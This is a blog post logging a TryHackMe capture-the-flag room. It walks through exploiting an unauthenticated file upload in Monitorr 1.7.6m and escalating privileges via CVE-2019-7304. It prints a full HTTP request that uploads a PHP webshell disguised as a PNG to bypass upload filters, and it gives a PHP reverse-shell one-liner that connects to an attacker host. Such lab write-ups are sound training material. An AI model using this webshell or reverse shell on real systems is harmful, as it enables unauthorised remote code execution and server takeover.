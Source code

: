 ```yaml
---
layout: post
title: CTF Log - Year of the Jellyfish {THM}
description: A log of how I did the TryHackMe room Year of the Jellyfish by Muirland Oracle
summary: A log of the THM room "Year of the Jellyfish"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Jellyfish
## Monitorr 1.7.6m Unauthed File Upload
The initial nmap scan returned the following open TCP ports: 21, 22, 80, 443, 8000, 8096. As it would turn out, ports 8000 and 8096 are red herrings and don't lead to any foothold on the box. This is something I was sad to discover, as I was looking forward to exploiting the Jellyfin Media Server.

Looking into the SSL certificate for `robyns-petshop.thm`, I see that it also supports the subdomains `monitorr`, `dev`, and `beta`. 

Navigating to `https://monitorr.robyns-petshop.thm` I find Monitorr v1.7.6m is running. This version has an unauthenticated file upload vulnerability, which can naturally be converted into RCE. 

I also notice that my requests are sending the cookie `isHuman=1`. I change the value to `0` to see what happens and it doesn't like it, accusing me of being a hacker. That's prepostorous of course so I note to send `Cookie: isHuman=1` with all future requests. 

As I'm practicing for the OSWE exam, I choose to build my own exploit code based on the knowledge that the vulnerability relates to the file `/assets/php/upload.php`. 

Lets break down this portion of the `upload.php` file. 
```php
 $target_dir = "../data/usrimg/";
 $target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
 $uploadOk = 1;
 $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
 $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
 $rawfile = $_FILES["fileToUpload"]["name"];
 ```

On line 2, the $\_FILES is a superglobal PHP variable that refers to files uploaded through a POST request. 

The first subscript `["fileToUpload"]` refers to the name of the file upload section in the multipart/form-data formatted POST request body. 

The second subscript `["name"]` refers to the actual filename, as it was uploaded. In this case, `name` is a placeholder for the actual filename, not the name of the file. 

Anyway, all this is piece of code is saying, is that it will save the file I send in a POST request to the `upload.php` endpoint.

For a preliminary proof of concept, I make a simple HTML upload form:

 ```html
 <form action="https://monitorr.robyns-petshop.thm/assets/php/upload.php" method="post" enctype="multipart/form-data">
 	<input type="file" name="fileToUpload" />
 	<input type="submit" />
 </form>
 ```

By capturing the request in burp and sending it to repeater, I'm able to easily fuzz and experiment with different payloads. 

Through a bit of experimentation, I determine the following limitations:

- filename extension cannot begin with `.php`
- filename must have an image filetype extension 
- file must begin with magic bytes corresponding to an image file

I'm able to bypass the filters and upload a `.phtml` file which will render and execute PHP code using the following POST request:

```
POST /assets/php/upload.php HTTP/1.1
Host: monitorr.robyns-petshop.thm
Content-Type: multipart/form-data; boundary=--------------------------190412675211009862293213789695
Content-Length: 350
Cookie: isHuman=1

-----------------------------190412675211009862293213789695
Content-Disposition: form-data; name="fileToUpload"; filename="webshell.png.phtml"
Content-Type: image/png

PNG
<?php passthru($_GET["c"]);
-----------------------------190412675211009862293213789695--
```

Note:

- The filename `webshell.png.phtml` satisfies the image filetype extension requirement while bypassing the `/\.php.*/` pattern matching filter for the extension.
- Some experimentation was needed to determine that the webshell payload `<?php passthru($_GET["c"]);` should not have a closing bracket `>` to properly function.

![Output of 'id' on the webshell page. You can see some of the binary data from the image file being rendered as unicode characters.](/assets/media/yearofthejellyfish/webshell.png)

I URL encoded this PHP oneliner reverse shell `php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'` and caught a shell as `www-data`. 

## CVE-2019-7304
After some enumeration the command `apt list --upgradeable` shows me an outdated version of Snapd: `snapd/bionic-updates 2.49.2+18.04 amd64 [upgradable from: 2.32.5+18.04]`. This version is susceptible to a neat vulnerability, CVE-2019-7304, that involves creating a UbuntuOne account online. 

After creating an account, you provide it with a public SSH key and then use the private counterpart to start a malicious socket connection to the package manager. 

From there you're able to create a new user with root privileges. 

The comments on [this](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv1.py) PoC are well written and teach a good bit about how the exploit functions. 
